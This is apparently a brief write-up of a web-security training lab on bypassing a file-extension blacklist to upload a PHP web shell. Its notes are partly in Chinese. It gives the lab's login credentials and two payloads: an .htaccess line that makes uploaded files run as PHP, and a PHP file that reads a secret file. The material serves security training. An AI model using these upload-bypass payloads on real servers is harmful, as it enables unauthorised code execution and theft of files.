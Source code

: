 # Lab: Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

## File Upload
* 這一題看一下提示說要上傳兩個檔案，意思就是一個是要上傳 .htaccess，另一個隨便
```
// .htaccess
SetHandler application/x-httpd-php
```
```
// a.php5
payload = <?php readfile("/home/carlos/secret"); ?>
```
